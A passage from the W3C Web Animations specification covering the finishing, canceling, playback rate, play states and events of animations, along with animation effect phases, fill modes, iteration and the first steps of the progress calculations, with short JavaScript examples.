    2. Resolve *animation*’s current finished promise object with *animation*.
    3. Create an `AnimationPlaybackEvent`, *finishEvent*.
    4. Set *finishEvent*’s `type` attribute to finish.
    5. Set *finishEvent*’s `currentTime` attribute to the current time of *animation*.
    6. Set *finishEvent*’s `timelineTime` attribute to the current time of the timeline with which *animation* is associated. If *animation* is not associated with a timeline, or the timeline is inactive, let `timelineTime` be `null`.
    7. If *animation* has a document for timing, then append *finishEvent* to its document for timing’s pending animation event queue along with its target, *animation*. For the scheduled event time, use the result of converting *animation*’s associated effect end to an origin-relative time.

       Otherwise, queue a task to dispatch *finishEvent* at *animation*. The task source for this task is the DOM manipulation task source.
  2. If *synchronously notify* is true, cancel any queued microtask to run the finish notification steps for this *animation*, and run the finish notification steps immediately.

     Otherwise, if *synchronously notify* is false, queue a microtask to run finish notification steps for *animation* unless there is already a microtask queued to run those steps for *animation*.
6. If *current finished state* is false and *animation*’s current finished promise is already resolved, set *animation*’s current finished promise to a new promise in the relevant Realm of *animation*.

> **Note:** Typically, notification about the finished state of an animation is performed asynchronously. This allows for the animation to temporarily enter the finished play state without triggering events to be fired or promises to be resolved.
>
> For example, in the following code fragment, `animation` temporarily enters the finished state. If notification of the finished state occurred synchronously, this code would cause the finish event to be queued and the current finished promise to be resolved. However, if we reverse the order of the two statements such that the `iterations` is updated first, this would not happen. To avoid this surprising behavior, notification about the finished state of an animation is typically performed asynchronously.
>
> > **Example:** ```
> > var animation = elem.animate({ left: '100px' }, 2000);
> > animation.playbackRate = 2;
> > animation.currentTime = 2000; // animation is now finished
> > animation.effect.updateTiming({ iterations: 2 }); // animation is no longer finished
> > ```
>
> The one exception to this asynchronous behavior is when the finish an animation procedure is performed (typically by calling the `finish()` method). In this case the author’s intention to finish the animation is clear so the notification about the finished state of the animation occurs synchronously as demonstrated below.
>
> > **Example:** ```
> > var animation = elem.animate({ left: '100px' }, 1000);
> > animation.finish(); // finish event is queued immediately and finished promise
> >                     // is resolved despite the fact that the following statement
> >                     // causes the animation to leave the finished state
> > animation.currentTime = 0;
> > ```
>
> Note that, like the procedure to finish an animation, the procedure to cancel an animation similarly queues the cancel event and rejects the current finished promise and current ready promise in a *synchronous* manner.

##### 4.5.13. Finishing an animation {#web-animations-1:finishing-an-animation-section}

An animation can be advanced to the natural end of its current playback direction by using the procedure to **finish an animation** for *animation* defined below:

1. If *animation*’s effective playback rate is zero, or if *animation*’s effective playback rate > 0 and associated effect end is infinity, throw an "`InvalidStateError`" `DOMException` and abort these steps.
2. Apply any pending playback rate to *animation*.
3. Set *limit* as follows:

   **If playback rate > 0,**

   : Let *limit* be associated effect end.

   **Otherwise,**

   : Let *limit* be zero.
4. Silently set the current time to *limit*.
5. If *animation*’s start time is unresolved and *animation* has an associated active timeline, let the start time be the result of evaluating `timeline time − (limit / playback rate)` where *timeline time* is the current time value of the associated timeline.
6. If there is a pending pause task and start time is resolved,

  1. Let the hold time be unresolved.

     > **Note:** Typically the hold time will already be unresolved except in the case when the animation was previously idle.
  2. Cancel the pending pause task.
  3. Resolve the current ready promise of *animation* with *animation*.
7. If there is a pending play task and start time is resolved, cancel that task and resolve the current ready promise of *animation* with *animation*.
8. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to true.

##### 4.5.14. Canceling an animation {#web-animations-1:canceling-an-animation-section}

An animation can be canceled which causes the current time to become unresolved, hence removing any effects caused by the associated effect.

The procedure to **cancel an animation** for *animation* is as follows:

1. If *animation*’s play state is *not* idle, perform the following steps:

  1. Run the procedure to reset an animation’s pending tasks on *animation*.
  2. Reject the current finished promise with a `DOMException` named "`AbortError`".
  3. Set the [[PromiseIsHandled]] internal slot of the current finished promise to true.
  4. Let current finished promise be a new promise in the relevant Realm of *animation*.
  5. Create an `AnimationPlaybackEvent`, *cancelEvent*.
  6. Set *cancelEvent*’s `type` attribute to cancel.
  7. Set *cancelEvent*’s `currentTime` to `null`.
  8. Let *timeline time* be the current time of the timeline with which *animation* is associated. If *animation* is not associated with an active timeline, let *timeline time* be an unresolved time value.
  9. Set *cancelEvent*’s `timelineTime` to *timeline time*. If *timeline time* is unresolved, set it to `null`.
  10. If *animation* has a document for timing, then append *cancelEvent* to its document for timing’s pending animation event queue along with its target, *animation*. If *animation* is associated with an active timeline that defines a procedure to convert timeline times to origin-relative time, let the scheduled event time be the result of applying that procedure to *timeline time*. Otherwise, the scheduled event time is an unresolved time value.

     Otherwise, queue a task to dispatch *cancelEvent* at *animation*. The task source for this task is the DOM manipulation task source.
2. Make *animation*’s hold time unresolved.
3. Make *animation*’s start time unresolved.

The procedure to **reset an animation’s pending tasks** for *animation* is as follows:

1. If *animation* does not have a pending play task or a pending pause task, abort this procedure.
2. If *animation* has a pending play task, cancel that task.
3. If *animation* has a pending pause task, cancel that task.
4. Apply any pending playback rate on *animation*.
5. Reject *animation*’s current ready promise with a `DOMException` named "`AbortError`".
6. Set the [[PromiseIsHandled]] internal slot of *animation*’s current ready promise to true.
7. Let *animation*’s current ready promise be the result of creating a new resolved Promise object with value *animation* in the relevant Realm of *animation*.

##### 4.5.15. Speed control {#web-animations-1:speed-control}

The rate of play of an animation can be controlled by setting its playback rate. For example, setting a playback rate of 2 will cause the animation’s current time to increase at twice the rate of its timeline. Similarly, a playback rate of -1 will cause the animation’s current time to decrease at the same rate as the time values from its timeline increase.

Animations have a **playback rate** that provides a scaling factor from the rate of change of the associated timeline’s time values to the animation’s current time. The playback rate is initially 1.

Setting an animation’s playback rate to zero effectively pauses the animation (however, the play state does not necessarily become paused).

###### 4.5.15.1. Setting the playback rate of an animation {#web-animations-1:setting-the-playback-rate-of-an-animation}

The procedure to **set the playback rate** of an animation, *animation*, to *new playback rate* is as follows:

1. Clear any pending playback rate on *animation*.
2. Let *previous time* be the value of the current time of *animation* before changing the playback rate.
3. Let *previous playback rate* be the current effective playback rate of *animation*.
4. Set the playback rate to *new playback rate*.
5. Perform the steps corresponding to the *first* matching condition from the following, if any:

   **If *animation* is associated with a monotonically increasing timeline and the *previous time* is resolved,**

   : Set the current time of *animation* to *previous time*.

   **If *animation* is associated with a non-null timeline that is not monotonically increasing, the start time of *animation* is resolved, associated effect end is not infinity, and *either*:   the *previous playback rate* < 0 and the *new playback rate* ≥ 0, or  the *previous playback rate* ≥ 0 and the *new playback rate* < 0,**

   : Set *animation*’s start time to the result of evaluating `associated effect end − start time` for *animation*.

  > **Note:** This effectively flips the animation start/end times on non-monotonic timelines, preserving the relative offset of the start time from the other direction.
6. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to false.

###### 4.5.15.2. Seamlessly updating the playback rate of an animation {#web-animations-1:seamlessly-updating-the-playback-rate-of-an-animation}

For an in-flight animation that is running on another process or thread, the procedure to set the playback rate can cause the animation to jump if the process or thread running the animation is not currently synchronized with the process or thread performing the update.

In order to produce seamless changes to the playback rate of an animation, animations may have a **pending playback rate** that defines a playback rate to be applied after any necessary synchronization has taken place (for the case of animations running in a different thread or process).

Initially the pending playback rate of an animation is unset.

The **effective playback rate** of an animation is its pending playback rate, if set, otherwise it is the animation’s playback rate.

When an animation, *animation*, is to **apply any pending playback rate** the following steps are performed:

1. If *animation* does not have a pending playback rate, abort these steps.
2. Set *animation*’s playback rate to its pending playback rate.
3. Clear *animation*’s pending playback rate.

The procedure to **seamlessly update the playback rate** of an animation, *animation*, to *new playback rate* preserving its current time is as follows:

1. Let *previous play state* be *animation*’s play state.

   > **Note:** It is necessary to record the play state before updating *animation*’s effective playback rate since, in the following logic, we want to immediately apply the pending playback rate of *animation* if it is *currently* finished regardless of whether or not it will still be finished after we apply the pending playback rate.
2. Let *animation*’s pending playback rate be *new playback rate*.
3. Perform the steps corresponding to the first matching condition below:

   **If *animation* has a pending play task or a pending pause task,**

   : Abort these steps.

  > **Note:** The different types of pending tasks will apply the pending playback rate when they run so there is no further action required in this case.

   **If *previous play state* is idle or paused, or *animation*’s current time is unresolved,**

   : Apply any pending playback rate on *animation*.

  > **Note:** The second condition above is required so that if we have a running animation with an unresolved current time and no pending play task, we do not attempt to play it below.

   **If *previous play state* is finished,**

   : 1. Let the *unconstrained current time* be the result of calculating the current time of *animation* substituting an unresolved time value for the hold time.
  2. Let *animation*’s start time be the result of evaluating the following expression:

     > `timeline time − (unconstrained current time / pending playback rate)`

     Where *timeline time* is the current time value of the timeline associated with *animation*.

     If pending playback rate is zero, let *animation*’s start time be *timeline time*.
  3. Apply any pending playback rate on *animation*.
  4. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

   **Otherwise,**

   : Run the procedure to play an animation for *animation* with the *auto-rewind* flag set to false.

##### 4.5.16. Reversing an animation {#web-animations-1:reversing-an-animation-section}

The procedure to **reverse an animation** of animation *animation* is as follows:

1. If there is no timeline associated with *animation*, or the associated timeline is inactive throw an "`InvalidStateError`" `DOMException` and abort these steps.
2. Let *original pending playback rate* be *animation*’s pending playback rate.
3. Let *animation*’s pending playback rate be the additive inverse of its effective playback rate (i.e. `-effective playback rate`).
4. Run the steps to play an animation for *animation* with the *auto-rewind* flag set to true.

   If the steps to play an animation throw an exception, set *animation*’s pending playback rate to *original pending playback rate* and propagate the exception.

##### 4.5.17. Play states {#web-animations-1:play-states}

An animation can be described as being in one of the following **play states**, for each of which a non-normative description is also provided:

**idle**

: The current time of the animation is unresolved and the start time of the animation is unresolved and there are no pending tasks. In this state the animation has no effect.

**running**

: The animation has a resolved current time that changes on each animation frame (provided the playback rate is not zero and the timeline is active and monotonically increasing).

**paused**

: The animation has been suspended and the current time is no longer changing.

**finished**

: The animation has reached the natural boundary of its playback range and the current time is no longer updating.

Since the current time of an animation is determined by its start time and hold time (see [§ 4.5.1 Calculating the current time of an animation](#web-animations-1:the-current-time-of-an-animation)), and since the play state is in turn determined by the current time, the four play states correspond to the four combinations of those two values:

|  | hold time is unresolved | hold time is resolved |
| --- | --- | --- |
| start time is unresolved | idle | paused |
| start time is resolved | running | finished |

The above table assumes the animation has no pending task. A pending pause task causes an animation to be paused regardless of its start time and hold time, while a pending play task prevents both the idle play state and the paused play state.

Similarly, an animation whose playback rate is zero has a resolved hold time without having reached a boundary, and so is running with a current time that never changes.

The play state of animation, *animation*, at a given moment is the state corresponding to the *first* matching condition from the following:

***All* of the following conditions are true:   The current time of *animation* is unresolved, *and*  the start time of *animation* is unresolved, *and*  *animation* does *not* have *either* a pending play task *or* a pending pause task,**

: → **idle**

***Either* of the following conditions are true:   *animation* has a pending pause task, *or*  *both* the start time of *animation* is unresolved *and* it does *not* have a pending play task,**

: → **paused**

**For *animation*, current time is resolved and *either* of the following conditions are true:   *animation*’s effective playback rate > 0 and current time ≥ associated effect end; *or*  *animation*’s effective playback rate < 0 and current time ≤ 0,**

: → **finished**

**Otherwise,**

: → **running**

> **Note:** that the paused play state effectively “wins” over the finished play state.
>
> However, an animation that is paused outside of its natural playback range can be converted from a paused animation into a finished animation without restarting by setting the start time such as below:
>
> > **Example:** ```
> > animation.effect.updateTiming({ duration: 5000 });
> > animation.currentTime = 4000;
> > animation.pause();
> > animation.ready.then(function() {
> >   animation.effect.updateTiming({ duration: 3000 });
> >   alert(animation.playState); // Displays 'paused'
> >   animation.startTime =
> >     document.timeline.currentTime - animation.currentTime * animation.playbackRate;
> >   alert(animation.playState); // Displays 'finished'
> > });
> > ```

##### 4.5.18. Animation events {#web-animations-1:animation-events-section}

**Animation events** include the animation playback events defined in this specification as well as the events from CSS transitions [CSS-TRANSITIONS-1] and events from CSS animations [CSS-ANIMATIONS-1]. Future specifications may extend this set with further types of animation events.

Each `Document` maintains a **pending animation event queue** that stores animation events along with their corresponding event targets and **scheduled event time**. The scheduled event time is a time value relative to the time origin representing when the event would ideally have been dispatched were animations updated at an infinitely high frequency. It is used by the procedure to update animations and send events to sort queued animation events chronologically. Note that this value can be unresolved if, for example, the animation’s timeline produces values that are unrelated to the time origin (e.g. a timeline that tracks scroll-position) or if the timeline is inactive.

###### 4.5.18.1. Sorting animation events {#web-animations-1:sorting-animation-events}

The following definitions are provided to assist with sorting queued events.

To **convert an animation time to timeline time** a time value, *time*, that is relative to the start time of an animation, *animation*, perform the following steps:

1. If *time* is unresolved, return *time*.
2. If *time* is infinity, return an unresolved time value.
3. If *animation*’s playback rate is zero, return an unresolved time value.
4. If *animation*’s start time is unresolved, return an unresolved time value.
5. Return the result of calculating `time × (1 / playback rate) + start time`, where *playback rate* and *start time* are the playback rate and start time of *animation*, respectively.

To **convert a timeline time to an origin-relative time** a time value, *time*, that is expressed in the same scale as the time values of a timeline, *timeline*, perform the following steps:

1. Let *timeline time* be the result of converting *time* from an animation time to a timeline time.
2. If *timeline time* is unresolved, return *time*.
3. If *animation* is not associated with a timeline, return an unresolved time value.
4. If *animation* is associated with an inactive timeline, return an unresolved time value.
5. If there is no procedure to convert a timeline time to an origin-relative time for the timeline associated with *animation*, return an unresolved time value.
6. Return the result of converting *timeline time* to an origin-relative time using the procedure defined for the timeline associated with *animation*.

###### 4.5.18.2. Animation playback events {#web-animations-1:animation-playback-events-section}

As animations play, they report changes to their status through **animation playback events**.

Animation playback events are a property of the timing model. As a result they are dispatched even when the associated effect of the animation is absent or has no observable result.

###### 4.5.18.3. Types of animation playback events {#web-animations-1:animation-playback-event-types}

****finish****

: Queued whenever an animation enters the finished play state.

****cancel****

: Queued whenever an animation enters the idle play state from another state. Creating a new animation that is initially idle does *not* generate a new cancel event.

****remove****

: Queued whenever an animation is automatically removed. See [§ 5.5 Replacing animations](#web-animations-1:replacing-animations).

#### 4.6. Animation effects {#web-animations-1:animation-effects}

An **animation effect** is a timing node that provides a static description of some timed behavior.

All animation effects have the following properties:

- an active interval, determined by its start delay and active duration, defining the time interval during which its behavior takes effect
- an iteration duration, iteration count, and iteration start defining how its behavior repeats within that interval
- a playback direction applying to each iteration, to allow reversing the timing of effects within an iteration
- a fill mode defining the application of effects before/after its active interval
- optionally, an associated animation and through it, optionally, an associated timeline, which cause the animation effect to apply its behavior by driving its local time value

##### 4.6.1. Types of animation effects {#web-animations-1:types-of-animation-effects}

This specification defines a single type of animation effect: keyframe effects. Subsequent levels of this specification will define further types of animation effects.

##### 4.6.2. Associated animation and timeline {#web-animations-1:animation-effects-and-animations}

An animation effect is **associated with an animation** when the effect is that animation’s associated effect. At a given moment, an animation effect can be associated with at most one animation.

An animation effect, *effect*, is **associated with a timeline**, *timeline*, if *effect* is associated with an animation which, in turn, is associated with *timeline*.

##### 4.6.3. Local time {#web-animations-1:local-time-section}

The **local time** of an animation effect represents the current time provided by its associated animation, determining the progress of the animation effect. At a given moment, it is based on the first matching condition below:

**If the animation effect is associated with an animation,**

: the local time is the current time of the animation.

**Otherwise,**

: the local time is unresolved.

##### 4.6.4. Time spaces {#web-animations-1:effect-time-spaces}

*This section is non-normative*

In Web Animations all times are relative to some point of reference. These different points of reference produce different **time spaces**.

This can be compared to coordinate spaces as used in computer graphics. The zero time of a time space is analogous to the origin of a coordinate space.

Within the Web Animations model we define progress of an animation effect on the basis of its active time, which is a time relative to the beginning of its active interval—​thus a time in the active time space.

> **Note:** This time space is internal to the model and not exposed in the programming interface or in markup.

We can further describe animations that repeat as establishing a new time space each time the animation repeats: the iteration time space.

The animation effect thus translates the current time provided by the associated animation through a series of time spaces:

- the **local time space**, relative to the start time of the associated animation, yielding the local time
- the **active time space**, relative to the start of the active interval, yielding the active time
- the **iteration time space**, relative to the start of the animation effect’s current iteration, yielding the **iteration time**

These time spaces are illustrated below.

![A comparison of local time, active time, and iteration time. Local time crosses zero at the start time of the animation, and rises linearly. Active time is zero until the start of the active interval, at which point it rises linearly to the end time, beyond which it remains at its maximum value. Iteration time is likewise zero until the start of the active interval, and rises linearly, but restarts at zero at the start of every new iteration, and remains at its halfway point from the end time onward.](../web-animations-1/images/time-spaces.svg)

A comparison of local time, active time, and iteration time for an animation with an iteration duration of 1s and an iteration count of 2.5. The start time defined by the animation and end time defined by the animation effect are also annotated.

In addition to these time spaces we can also refer to the **document time space**, which is time space of the time values of the default document timeline of the `Document` of the current global object.

> **Note:** While the time spaces themselves are not bounded, Web Animations defines active time and the iteration progress such that they are clamped to a set range as shown in the diagram. For example, whilst a time of -1 second is a valid time in *active time space*, the procedure for calculating the active time defined in [§ 4.7.2 Calculating the active time](#web-animations-1:calculating-the-active-time) will never return a negative value.

##### 4.6.5. The active interval {#web-animations-1:the-active-interval}

Animation effects define an **active interval**, which is the period of time during which the effect is scheduled to produce its effect (excepting fill modes, which apply outside the active interval). Each animation effect has only one such interval, which is defined by its start delay and active duration.

The relationship between the start time, start delay, and active duration is illustrated below.


Examples of the effect of the start delay on the endpoints of the active interval.  (a) An animation effect with no delay; the start time and beginning of the active interval are coincident.  (b) An animation effect with a positive delay; the beginning of the active interval is deferred by the delay.  (c) An animation effect with a negative delay; the beginning of the active interval is brought forward by the delay.

###### 4.6.5.1. The start delay {#web-animations-1:the-start-delay}

The lower bound of the active interval by default corresponds to the start time of the associated animation, but can be shifted by the **start delay**, which is a signed offset from the start time of the animation.

###### 4.6.5.2. The active duration {#web-animations-1:the-active-duration}

The length of the active interval is called the **active duration**, and is determined by the iteration duration and iteration count as defined below. Its length determines the upper bound of the active interval.

> active duration = `iteration duration × iteration count`

If either the iteration duration or iteration count are zero, the active duration is zero.

> **Note:** This clarification is needed since the result of infinity multiplied by zero is undefined according to IEEE 754-2008.

###### 4.6.5.3. The end delay and animation effect end time {#web-animations-1:the-end-delay}

Similar to the start delay, an animation effect also has an **end delay**, which is primarily of use when sequencing one animation effect based on the end time of another animation effect.

The **end time**, of an animation effect is the result of evaluating `max(start delay + active duration + end delay, 0)`.

> **Note:** Although the end delay is typically only useful in combination with sequence effects which are introduced in a subsequent level of this specification, it is included here for the purpose of representing the [`min`](https://www.w3.org/TR/SVG/animate.html#MinAttribute) attribute in SVG ([SVG11], Chapter 19).

##### 4.6.6. Animation effect phases and states {#web-animations-1:animation-effect-phases-and-states}

*This section is non-normative*

At a given moment, an animation effect can be in one of three possible *phases*. If an animation effect has an unresolved local time it will not be in any phase.

The different phases are illustrated below.


An example of the different phases and states used to describe an animation effect.

The phases are as follows:

**before phase**

: The animation effect’s local time falls before the effect’s active interval and end time, *or* occurs during the range when a negative start delay is in effect.

**active phase**

: The animation effect’s local time falls inside the effect’s active interval and outside the range of any negative start delay or negative end delay.

**after phase**

: The animation effect’s local time falls after the effect’s active interval or after the end time if that comes first (due to a negative end delay), but *not* during the range when a negative start delay is in effect.

In addition to these phases, an animation effect can also be described as being in one of several overlapping *states*. These states are only established for the duration of a single animation frame and are primarily a convenience for describing stative parts of the model.

These states and their usage within the model are summarized as follows:

**in play**

: Corresponds to an animation effect whose active time is changing on each frame.

**current**

: Corresponds to an animation effect that is either in play or could become in play in the future based on its animation’s current playback rate.

**in effect**

: Corresponds to an animation effect that has a resolved active time. This occurs when either the animation effect is in its active phase or outside the active phase but at a time where the effect’s fill mode (see [§ 4.6.8 Fill behavior and fill modes](#web-animations-1:fill-behavior)) causes its active time to be resolved. Only in effect animation effects apply a result to their target.

The normative definition of each of these states follows.

The phase of an animation effect depends on the following definitions:

****animation direction****

: “backwards” if the effect is associated with an animation *and* the associated animation’s playback rate is less than zero; in all other cases, the animation direction is “forward”.

****before-active boundary time****

: `max(min(start delay, end time), 0)`

****active-after boundary time****

: `max(min(start delay + active duration, end time), 0)`

Furthermore, an **endpoint-inclusive active interval** flag may be specified when determining the phase. If not specified, it is assumed to be false.

An animation effect is in the **before phase** if the animation effect’s local time is not unresolved and *either* of the following conditions are met:

- the local time is less than the before-active boundary time, *or*
- the animation direction is “backwards”, the endpoint-inclusive active interval flag is false, and the local time is equal to the before-active boundary time.

An animation effect is in the **after phase** if the animation effect’s local time is not unresolved and *either* of the following conditions are met:

- the local time is greater than the active-after boundary time, *or*
- the animation direction is “forwards”, the endpoint-inclusive active interval flag is false, and the local time is equal to the active-after boundary time.

An animation effect is in the **active phase** if the animation effect’s local time is not unresolved and it is neither in the before phase nor in the after phase.

Furthermore, it is often convenient to refer to the case when an animation effect is in none of the above phases as being in the **idle phase**.

An animation effect is **in play** if *all* of the following conditions are met:

- the animation effect is in the active phase, and
- the animation effect is associated with an animation that is not finished.

An animation effect is **current** if *any* of the following conditions are true:

- the animation effect is in play, or
- the animation effect is in the before phase and is associated with an animation with a playback rate > 0, or
- the animation effect is in the after phase and is associated with an animation with a playback rate < 0, or
- the animation effect is associated with an animation not in the idle play state with a non-null associated timeline that is not monotonically increasing.

An animation effect is **in effect** if its active time, as calculated according to the procedure in [§ 4.7.2 Calculating the active time](#web-animations-1:calculating-the-active-time), is *not* unresolved.

##### 4.6.7. Relevant animations {#web-animations-1:relevant-animations-section}

We can define an animation as being relevant based on the animation effect associated with it.

An animation is **relevant** if:

- Its associated effect is current *or* in effect, *and*
- Its replace state is *not* removed.

The **relevant animations** for an element or pseudo-element *target* is the set of all animations that contain at least one animation effect whose effect target is *target*.

The **relevant animations for a subtree** of an element, pseudo-element, document, or shadow root *target* is the set of all animations that contain at least one animation effect whose effect target is an inclusive descendant (or descendant, if *target* is a document or shadow root) of *target* or is a pseudo-element of such a descendant.

##### 4.6.8. Fill behavior and fill modes {#web-animations-1:fill-behavior}

The effect of an animation effect when it is not in play is determined by its **fill mode**. The effect of each fill mode is described below:

****none****

: The animation effect has no effect when it is not in play.

****forwards****

: When the animation effect is in the after phase, the animation effect will produce the same iteration progress value as the last moment it is scheduled to be in play.

  For all other times that the animation effect is not in play, it will have no effect.

****backwards****

: When the animation effect is in the before phase, the animation effect will produce the same iteration progress value as the earliest moment that it is scheduled to be in play.

  For all other times that the animation effect is not in play, it will have no effect.

****both****

: When the animation effect is in its before phase, backwards fill behavior is used.

  When the animation effect is in its after phase, forwards fill behavior is used.

The normative effect of these modes is incorporated in the calculation of the active time in [§ 4.7.2 Calculating the active time](#web-animations-1:calculating-the-active-time).

Some examples of these fill modes are illustrated below.


Examples of various fill modes and the states produced.  (a) fill mode none. The animation effect has no effect outside its active phase.  (b) fill mode forwards. After the active phase has finished, the iteration progress value continues to maintain a fill value.  (c) fill mode backwards. The animation effect produces a fill value until the start of the active phase.  (d) fill mode both. Both before and after the active phase the animation effect produces a fill value.

> **Note:** Authors are discouraged from using fill modes to produce animations whose effect is applied indefinitely. Fill modes were introduced in order to represent the `animation-fill-mode` property defined by CSS animations [CSS-ANIMATIONS-1]. However, they produce situations where animation state would be accumulated indefinitely, necessitating the automatic removal of animations (as defined in [§ 5.5 Replacing animations](#web-animations-1:replacing-animations)). Furthermore, indefinitely filling animations can cause changes to specified styles to be ineffective long after all animations have completed since the animation style takes precedence in the CSS cascade. [CSS-CASCADE-3]

**Where possible, authors should set the final state of the animation directly in specified styles.**

> **Example:** This can be achieved by waiting for the animation to finish and then updating the style as illustrated below:
>
> ```
> // In the first frame after the following animation finishes,
> // the callback for the `finished` promise will run
> // BEFORE style is updated, and hence will NOT flicker.
> elem.animate({ transform: 'translateY(100px)' }, 200).finished.then(() => {
>   elem.style.transform = 'translateY(100px)';
> });
> ```

> **Example:** More conveniently, an `Animation`’s `commitStyles` method can be used to produce the same effect.
>
> ```
> elem.animate({ transform: 'translateY(100px)' }, 200).finished.then(() => {
>   elem.commitStyles();
> });
> ```

> **Example:** Alternatively, the author can set the specified style at the start of the animation and then animate *from* the original value as illustrated below:
>
> ```
> elem.style.transform = 'translateY(100px)';
> elem.animate({ transform: 'none', offset: 0 }, 200);
> ```

> **Note:** Setting a fill mode has no bearing on the endpoints of the active interval or the boundaries between [phases](#web-animations-1:animation-effect-phases-and-states) However, the fill mode *does* have an effect on various other properties of the timing model since the active time of an animation effect is only defined (that is, not unresolved) inside the active phase *or* when a fill is applied.

##### 4.6.9. Repeating {#web-animations-1:repeating}

###### 4.6.9.1. Iteration intervals {#web-animations-1:iteration-intervals}

It is possible to specify that an animation effect should repeat a fixed number of times or indefinitely. This repetition occurs *within* the active interval. The span of time during which a single repetition takes place is called an **iteration interval**.

Unlike the active interval, an animation effect can have multiple iteration intervals, although typically only the interval corresponding to the current iteration is of interest.

The length of a single iteration is called the **iteration duration**. The initial iteration duration of an animation effect is zero.

*This section is non-normative*

Comparing the iteration duration and the active duration we have:

**iteration duration**

: The time taken for a single iteration of the animation effect to complete.

**active duration**

: The time taken for the entire animation effect to complete, including repetitions. This can be longer or shorter than the iteration duration.

The relationship between the iteration duration and active duration is illustrated below.


A comparison of the iteration duration and active duration of an animation effect with an iteration count of 2.5. Note that the iteration duration for the final iteration does not change; it is simply cut-off by the active duration.

###### 4.6.9.2. Controlling iteration {#web-animations-1:controlling-iteration}

The number of times an animation effect repeats is called its **iteration count**. The iteration count is a real number greater than or equal to zero. The iteration count can also be positive infinity to represent that the animation effect repeats indefinitely.

In addition to the iteration count, animation effects also have an **iteration start** property which specifies an offset into the series of iterations at which the animation effect should begin. The iteration start is a finite real number greater than or equal to zero.

The behavior of these parameters is defined in the calculations in [§ 4.7 Calculating progress](#web-animations-1:core-animation-effect-calculations).

*This section is non-normative*

The effect of the iteration count and iteration start parameters is illustrated below.


The effect of the iteration count and iteration start parameters.  In the first case the iteration count is 2.5 resulting in the third iteration being cut off halfway through its iteration interval.  The second case is the same but with an iteration start of 0.5. This causes the animation effect to begin halfway through the first iteration.

Unlike the iteration count parameter, the iteration start parameter does not affect the length of the active duration.

Note that values of iteration start greater than or equal to one are generally not useful unless used in combination with an animation effect that has an iteration composite operation of accumulate.

###### 4.6.9.3. Interval timing {#web-animations-1:interval-timing}

*This section is non-normative*

When an animation effect repeats, the behavior at the iteration boundaries needs to be defined. For this, and indeed for all interval timing, Web Animations uses an endpoint-exclusive timing model. This means that whilst the begin time of an interval is included in the interval, the end time is not. In interval notation this can written `[begin, end)`. This model provides sensible behavior when intervals are repeated and sequenced since there is no overlap between the intervals.

In the examples below, for the repeated effect, at local time 1s, the iteration time is 0. For the sequenced animations, at timeline time 1s, only animation B’s associated effect will be in play; there is no overlap.


Illustration of end-point exclusive timing. For both repeated and sequenced animation effects there is no overlap at the boundaries between intervals.

An exception to this behavior is that when performing a [fill](#web-animations-1:fill-behavior), if the fill begins at an interval endpoint, the endpoint is used. This behavior falls out of the algorithm given in [§ 4.7.4 Calculating the simple iteration progress](#web-animations-1:calculating-the-simple-iteration-progress) and is illustrated below.


After one iteration, the iteration progress is 0, but after two iterations (and there onwards), the iteration progress is 1 due to the special behavior defined when an animation effect fills.

##### 4.6.10. Direction control {#web-animations-1:direction-control}

Animation effects can also be configured to run iterations in alternative directions using direction control. For this purpose, animation effects have a **playback direction** parameter which takes one of the following values:

****normal****

: All iterations are played as specified.

****reverse****

: All iterations are played in the reverse direction from the way they are specified.

****alternate****

: Even iterations are played as specified; odd iterations are played in the reverse direction from the way they are specified.

****alternate-reverse****

: Even iterations are played in the reverse direction from the way they are specified; odd iterations are played as specified.

The semantics of these values are incorporated into the calculation of the directed progress in [§ 4.7.6 Calculating the directed progress](#web-animations-1:calculating-the-directed-progress).

##### 4.6.11. Easing (effect timing transformations) {#web-animations-1:time-transformations}

It is often desirable to control the rate at which an animation effect progresses. For example, easing the rate of animation can create a sense of momentum and produce a more natural effect. The [CSS Easing Functions Module](#css-easing-2) defines easing functions for this purpose. [CSS-EASING-1]

Animation effects each have an **effect easing function**, which is an easing function used to transform progress across the entirety of each iteration. See [§ 4.7.7 Calculating the transformed progress](#web-animations-1:calculating-the-transformed-progress).

The default effect easing function is the linear easing function.

> **Note:** Specific [types of animation effects](#web-animations-1:types-of-animation-effects) may provide additional time transformations. For example, keyframe effects can provide keyframe-specific easing functions that can apply an easing function specifically between two adjacent keyframes.

#### 4.7. Calculating progress {#web-animations-1:core-animation-effect-calculations}

##### 4.7.1. Overview {#web-animations-1:animation-effect-calculations-overview}

*This section is non-normative*

At the core of the Web Animations timing model is the process that takes a local time value and converts it to an iteration progress.

The first step in this process is to calculate the bounds of the active interval which is determined by the active duration.

This process is illustrated below.


Calculation of the active duration is based on multiplying the iteration duration by the iteration count.

Having established the active duration, the process for transforming an animation effect’s local time into its transformed progress (iteration progress) is illustrated below.


An overview of timing model calculations.  (1) The local time is determined from the associated animation.  (2) The local time is converted into an active time by incorporating the start delay.  (3) The active time is divided by the iteration duration incorporating also the iteration start property to produce the overall progress.  (4) The overall progress time is then converted to an offset within a single iteration: the simple iteration progress.  (5) The simple iteration progress is converted into a directed progress by incorporating the playback direction.  (6) Finally, an easing function is applied to the directed progress to produce the transformed progress.

The first step, calculating the local time is described in [§ 4.6.3 Local time](#web-animations-1:local-time-section). Steps 2 to 6 in the diagram are described in the following sections.

##### 4.7.2. Calculating the active time {#web-animations-1:calculating-the-active-time}

The **active time** is based on the local time and start delay. However, it is only defined when the animation effect should produce an output and hence depends on its fill mode and phase as follows:

**If the animation effect is in the before phase,**

: The result depends on the first matching condition from the following:

  **If the fill mode is backwards or both,**

  : Return the result of evaluating `max(local time − start delay, 0)`.

  **Otherwise,**

  : Return an unresolved time value.

**If the animation effect is in the active phase,**

: Return the result of evaluating `local time − start delay`.

**If the animation effect is in the after phase,**

: The result depends on the first matching condition from the following:

  **If the fill mode is forwards or both,**

  : Return the result of evaluating `max(min(local time − start delay, active duration), 0)`.

  **Otherwise,**

  : Return an unresolved time value.

**Otherwise (the local time is unresolved),**

: Return an unresolved time value.

##### 4.7.3. Calculating the overall progress {#web-animations-1:calculating-the-overall-progress}

The **overall progress** describes the number of iterations that have completed (including partial iterations) and is defined as follows:

1. If the active time is unresolved, return unresolved.
2. Calculate an initial value for *overall progress* based on the first matching condition below:

   **If the iteration duration is zero,**

   : If the animation effect is in the before phase, let *overall progress* be zero; otherwise, let it be equal to the iteration count.

   **Otherwise,**

